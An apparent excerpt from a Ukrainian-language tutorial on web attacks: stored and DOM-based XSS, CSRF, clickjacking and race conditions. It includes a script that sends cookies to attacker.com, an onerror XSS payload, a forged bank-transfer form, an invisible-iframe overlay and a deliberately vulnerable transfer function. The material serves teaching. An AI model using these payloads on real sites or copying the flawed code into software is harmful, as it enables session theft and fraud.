 **Stored XSS:**
```html
<!-- Збережений в базі даних -->
<div class="comment">
    <script>
        // Викрадення cookies
        document.location='http://attacker.com/steal.php?cookie='+document.cookie;
    </script>
</div>
```

**DOM-based XSS:**
```javascript
// Вразливий JavaScript код
document.getElementById('welcome').innerHTML = "Hello " + location.hash.substring(1);

// URL атакувальника
http://site.com/page#<img src=x onerror=alert('XSS')>
```

#### **Cross-Site Request Forgery (CSRF)**
```html
<!-- Шкідливий сайт -->
<form action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="to_account" value="attacker_account">
    <input type="submit" value="Click for free money!">
</form>
```

**Захист від CSRF:**
```html
<!-- CSRF Token -->
<input type="hidden" name="_token" value="abc123randomtoken">
```

#### **Clickjacking**
```html
<!-- Invisible iframe overlay -->
<style>
    iframe { opacity: 0; position: absolute; top: 0; left: 0; }
</style>
<iframe src="http://vulnerable-site.com/admin/delete"></iframe>
<button>Click for prize!</button>
```

### 🔒 **Business Logic атаки**

#### **Race Conditions**
```python
# Вразливий код - race condition
def transfer_money(from_account, to_account, amount):
    if get_balance(from_account) >= amount:
        # Проблема: між перевіркою та списанням може статися інша транзакція
        time.sleep(0.1)  # Simulation
        deduct_balance(from_account, amount)
        add_balance(to_account, amount)
```

